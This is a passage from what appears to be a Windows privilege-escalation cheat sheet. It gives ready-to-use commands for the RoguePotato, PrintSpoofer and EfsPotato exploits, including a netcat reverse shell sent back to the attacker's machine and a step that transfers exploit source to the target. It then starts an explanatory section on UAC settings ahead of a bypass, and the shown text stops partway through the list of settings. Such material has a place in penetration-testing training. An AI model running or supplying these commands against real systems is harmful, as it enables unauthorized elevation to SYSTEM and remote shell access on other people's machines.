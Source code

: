 **RoguePotato all in one with RogueOxidResolver running locally on port 9999 and specific clsid and custom pipename**

```
RoguePotato.exe -r 10.0.0.3 -e "C:\windows\system32\cmd.exe" -l 9999 -c "{6d8ff8e1-730d-11d4-bf42-00b0d0118b56}" -p splintercode
```

**Print Spoofer**

PrintSpoofer exploit that can be used to escalate service user permissions on Windows Server 2016, Server 2019, and Windows 10. **Exploit URL**

```
https://github.com/dievus/printspoofer
```

\[1] Execute the below command to spawn an elevated shell with the same session

```
PrintSpoofer.exe -i -c cmd
```

\[2] Execute the below to spawn a netcat connection back to your machine

```
PrintSpoofer.exe -c "c:\inetpub\wwwroot\nt4wrksv\nc.exe 10.x.x.x 443 -e cmd"
```

Pay attention to the path of `nc.exe` and change it if you uploaded the nc binary into a different location.

**EfsPotato**

Link below

```
https://github.com/zcgonvh/EfsPotato
```

First we transfer the file EfsPotato.cs to the target machine using curl or cewl or powershell or wget.

#### Bypassing UAC

**UAC Definition** This feature allows for any process to be run with low privileges independent of who runs it (either a regular user or an admin). User Account Control (UAC) is a Windows security feature that forces any new process to run in the security context of a non-privileged account by default. This policy applies to processes started by any user, including administrators themselves. The idea is that we can't solely rely on the user's identity to determine if some actions should be authorized. **Logic Behind UAC** Imagine the case where user BOB unknowingly downloads a malicious application from the Internet. If BOB is a part of the Administrators group, any application he launches will inherit its access token privileges. So if BOB decides to launch the malicious application and UAC is disabled, the malicious application would gain administrator privileges instantly. Instead, the malicious application will be restricted to a non-administrative access token when UAC is enabled. **UAC Settings** Depending on our security requirements, UAC can be configured to run at four different notification levels:

* _**Always notify:**_ Notify and prompt the user for authorization when making changes to Windows settings or when a program tries to install applications or make changes to the computer.
* _**Notify me only when programs try to make changes to my computer:**_ Notify and prompt the user for authorization when a program tries to install applications or make changes to the computer. Administrators won't be prompted when changing Windows settings.
* _**Notify me only when programs try to make changes to my computer (do not dim my desktop):**_ Same as above, but won't run the UAC prompt on a secure desktop.